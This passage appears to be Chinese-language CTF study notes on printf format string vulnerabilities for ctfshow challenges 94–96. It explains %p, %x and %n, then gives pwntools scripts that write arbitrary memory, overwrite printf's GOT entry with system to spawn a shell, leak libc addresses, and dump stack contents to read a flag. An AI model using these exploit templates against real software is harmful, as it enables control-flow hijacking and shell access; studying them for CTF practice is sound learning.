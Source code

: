 		leak(payload)   
		i += 1
	```

##### printf漏洞：

- %p： `%p` 用于打印内存地址-- 指针的内存地址 
- %x： `%x` 会输出栈上的内容 -- 无符号整数的十六进制表示 
- %n： `%n` 将已经打印的字符数写入一个指针指向的内存位置 例子：printf("%x %x %x %x %n", &count); 会输出四个栈上的值，并且在输出完这些值后，`%n` 会将输出的字符总数写入 `count` 变量中 。



实现任意地址写：

```python
daniu = 0x804B038#目标地址
payload = fmtstr_payload(7,{daniu:6})#7是偏移量，6是写入的值
io.sendline(payload)
```

实现改变got值：

```python
#ctfshow94
offset = 6 
printf_got = elf.got['printf']#改变的
system_plt = elf.plt['system']#想要的
payload = fmtstr_payload(offset,{printf_got:system_plt})
io.sendline(payload)
io.recv()
io.sendline('/bin/sh\x00')


#ctfshow95 升级版，没有system
elf = ELF('./pwn')
printf_got = elf.got['printf']
payload = p32(printf_got) + '%6$s'
io.send(payload)
printf = u32(io.recvuntil('\xf7')[-4:])
libc = LibcSearcher('printf',printf)
libc_base = printf - libc.dump('printf')
system = libc_base + libc.dump('system')
log.info("system ===> %s" % hex(system))
payload = fmtstr_payload(6,{printf_got:system})
io.send(payload)
io.send('/bin/sh')

```

查询偏移量

```python
#ctfshow96
flag=''
for i in range(6,6+12):
    payload='%{}$p'.format(str(i))
    io.sendlineafter('$ ',payload)
    aim = unhex(io.recvuntil('\n',drop=True).replace('0x',''))
    flag += aim[::-1]
print flag
```
